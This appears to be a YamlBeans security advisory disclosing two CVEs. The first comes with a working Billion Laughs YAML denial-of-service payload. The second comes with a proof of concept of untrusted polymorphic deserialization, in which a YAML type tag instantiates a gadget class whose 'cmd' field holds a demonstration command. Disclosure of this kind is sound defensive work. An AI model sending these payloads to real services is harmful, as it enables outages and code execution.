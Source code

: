 # Security Policy

## Reporting a Vulnerability

To report a vulnerability please contact security@contrastsecurity.com and please see our 
[Vulnerability Disclosure Policy
](https://www.contrastsecurity.com/disclosure-policy)


## CVE-2023-24620 Denial of Service

It is possible to perform a Denial of Service attack against an application using YamlBeans. This is through a entity expansion attack ( Billion Laughs ) similar to SnakeYaml's CVE-2017-18640.
The following is an example of a YAML Document
### POC
```yaml
lol1: &lol1 ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
lol2: &lol2 [*lol1,*lol1,*lol1,*lol1,*lol1,*lol1,*lol1,*lol1,*lol1,*lol1]
lol3: &lol3 [*lol2,*lol2,*lol2,*lol2,*lol2,*lol2,*lol2,*lol2,*lol2]
lol4: &lol4 [*lol3,*lol3,*lol3,*lol3,*lol3,*lol3,*lol3,*lol3,*lol3]
lol5: &lol5 [*lol4,*lol4,*lol4,*lol4,*lol4,*lol4,*lol4,*lol4,*lol4]
lol6: &lol6 [*lol5,*lol5,*lol5,*lol5,*lol5,*lol5,*lol5,*lol5,*lol5]
lol7: &lol7 [*lol6,*lol6,*lol6,*lol6,*lol6,*lol6,*lol6,*lol6,*lol6]
lol8: &lol8 [*lol7,*lol7,*lol7,*lol7,*lol7,*lol7,*lol7,*lol7,*lol7]
lol9: &lol9 [*lol8,*lol8,*lol8,*lol8,*lol8,*lol8,*lol8,*lol8,*lol8]
lolz: &lolz [*lol9]
```
In the following code the Denial of Service occurs at the point the data is traversed on the line System.out.Println() as data.toString() is implicitly called, which reads through all elements to generate the toString().
This would also happen if any sort of recursive traversing of the data structure occured.
```java
@PostMapping("/loadYaml")
public void loadYaml(@RequestBody String yamlFile) throws YamlException {
    YamlReader reader = new YamlReader(new StringReader(yamlFile));
    Map<String, ?> data = (Map<String, ?>) reader.read();
    System.out.println(data);
}
```



## CVE-2023-24621 Untrusted Polymorphic Deserialization to Java Classes
Within YamlBeans it is possible for the YAML file to contain the Java Class the data will be deserialized to. The class name in the YAML file overrides any class specified by the developer. For example
### POC
```java
@PostMapping("/loadYamlAsSpecificClass")
public void loadYamlAsSpecificClass(@RequestBody String yamlFile) throws YamlException {
    YamlReader reader = new YamlReader(new StringReader(yamlFile));
    Config data = reader.read(Config.class);
    System.out.println(data);
}
```

The developer, in the above example would reasonably expect that the data was deserialized to the Config.class. This does not occur if the YAML contains a reference to another class.
The value in the YAML overrides both `reader.read(Config.class);` and `reader.read();`
```yaml
!com.contrast.labs.yamlbeanspoc.Gadget
cmd: "open /System/Applications/Calculator.app"
```
In the above YAML the class `com.contrast.labs.yamlbeanspoc.Gadget` is instantiated instead of Config.class, and the variable "cmd" is set via it's setter method `setCmd(String value)`

#### Potential Gadget Classes
By default YamlBeans expects the class to follow the JavaBeans spec of having :
* Public No Args Constructor
* Private variables.
* Getters/Setters that follow the JavaBean spec. e.g that match the variable name, but with getVariableName() setVariableName().

If they are missing or the setter does not match the underlying variable name, it will not set that value.
This is similar to Jackson-Databind’s polymorphic deserialization. But Jackson does not check the underlying variable name. Just looks for setter method and calls it with the supplied value. But within that list there should be several Jackson-Databind gadgets that can be reused.

